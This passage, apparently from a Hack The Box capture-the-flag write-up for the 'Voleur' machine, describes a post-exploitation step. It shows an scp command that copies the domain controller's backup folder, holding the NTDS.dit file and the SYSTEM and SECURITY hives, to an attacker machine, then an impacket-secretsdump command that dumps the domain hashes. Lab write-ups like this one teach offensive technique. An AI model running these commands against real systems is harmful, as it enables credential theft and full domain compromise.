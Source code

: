 And in the registry folder we have the SYSTEM and SECURITY hives too, downloading them too using our python3 web server.

Unfortunately with python we cannot download the files.

Using scp to transfer the whole Backup folder to our attacker machine.

```bash
scp -i id_rsa -P 2222 -r "svc_backup@dc.voleur.htb:/mnt/c/IT/Third-Line Support/Backups" ./
```

![image.png](/assets/images/Voleur_HTB/image%2045.png)

Now using impacket’s secretsdump we dump the whole database.

```bash
impacket-secretsdump -ntds Active\ Directory/ntds.dit -system registry/SYSTEM LOCAL
```

![image.png](/assets/images/Voleur_HTB/image%2046.png)
